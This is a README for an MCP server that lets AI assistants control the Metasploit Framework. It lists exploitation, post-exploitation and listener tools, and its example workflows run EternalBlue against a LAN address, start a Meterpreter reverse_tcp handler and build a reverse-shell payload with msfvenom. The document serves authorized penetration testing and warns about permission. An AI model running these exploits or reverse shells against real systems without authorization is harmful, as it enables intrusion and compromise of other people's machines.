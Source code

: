 # Metasploit MCP Server

A Model Context Protocol (MCP) server for Metasploit Framework integration.

## Description

This MCP server provides a bridge between large language models like Claude and the Metasploit Framework penetration testing platform. It allows AI assistants to dynamically access and control Metasploit functionality through standardized tools, enabling a natural language interface to complex security testing workflows.

## Features

### Exploitation Workflow

- **list_exploits**: Search and list available Metasploit exploit modules
- **list_payloads**: Search and list available Metasploit payload modules
- **generate_payload_via_msfvenom**: Generate payload files using msfvenom
- **run_exploit**: Configure and execute an exploit against a target
- **list_active_sessions**: Show current Metasploit sessions
- **send_session_command**: Run a command in an active session

### Post-Exploitation Tools

- **get_system_info**: Retrieve system information from a Meterpreter session
- **get_user_id**: Get the current user context of a session
- **list_processes**: List running processes on the target system
- **migrate_process**: Move a Meterpreter session to another process
- **filesystem_list**: List files in a directory on the target system

### Listener Management

- **list_listeners**: Show all active handlers and background jobs
- **start_listener**: Create a new multi/handler to receive connections
- **stop_job**: Terminate any running job or handler

### Auxiliary Module Support

- **run_auxiliary_module**: Run any Metasploit auxiliary module with options

## Prerequisites

- Metasploit Framework installed and msfrpcd running
- Python 3.10 or higher
- Required Python packages (see requirements.txt)

## Installation

1. Clone this repository
2. Install dependencies:
   ```
   pip install -r requirements.txt
   ```
3. Configure environment variables (optional):
   ```
   MSF_PASSWORD=yourpassword
   MSF_SERVER=127.0.0.1
   MSF_PORT=55553
   MSF_SSL=false
   ```

## Usage

Run the MCP server:

```bash
python MetasploitMCP.py
```

For Claude Desktop integration, configure `claude_desktop_config.json`:

```json
{
    "mcpServers": {
        "metasploit": {
            "command": "uv",
            "args": [
                "--directory",
                "C:\\path\\to\\MetasploitMCP",
                "run",
                "MetasploitMCP.py"
            ],
            "env": {
                "MSF_PASSWORD": "yourpassword"
            }
        }
    }
}
```

## Security Considerations

⚠️ **IMPORTANT SECURITY WARNING**:

This tool provides direct access to Metasploit Framework capabilities, which include powerful exploitation features. Use responsibly and only in environments where you have explicit permission to perform security testing.

- Always validate and review all commands before execution
- Only run in segregated test environments or with proper authorization
- Be aware that post-exploitation commands can result in significant system modifications

## Example Workflows

### Basic Exploitation

1. List available exploits: `list_exploits("ms17_010")`
2. Select and run an exploit: `run_exploit("exploit/windows/smb/ms17_010_eternalblue", "192.168.1.100", 445)`
3. List sessions: `list_active_sessions()`
4. Run commands: `send_session_command(1, "whoami")`

### Post-Exploitation

1. Get system information: `get_system_info(1)`
2. List running processes: `list_processes(1)`
3. Migrate to a more stable process: `migrate_process(1, 1234)`
4. Browse the filesystem: `filesystem_list(1, "C:\\Users")`

### Handler Management

1. Start a listener: `start_listener("windows/meterpreter/reverse_tcp", "192.168.1.10", 4444)`
2. List active handlers: `list_listeners()`
3. Generate a payload: `generate_payload_via_msfvenom("windows/meterpreter/reverse_tcp", "192.168.1.10", 4444, "exe")`
4. Stop a handler: `stop_job(1)`

## License

Apache 2.0